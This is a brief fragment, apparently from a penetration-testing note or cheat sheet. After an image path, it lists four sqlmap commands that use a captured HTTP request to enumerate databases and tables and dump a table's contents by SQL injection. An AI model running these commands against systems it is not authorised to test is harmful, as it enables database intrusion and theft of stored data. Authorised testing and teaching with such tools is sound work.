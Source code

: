 sqlmap -r request.req
sqlmap -r request.req --dbs
sqlmap -r request.req -D database_name --tables
sqlmap -r request.req -D database_name -T table_name --dump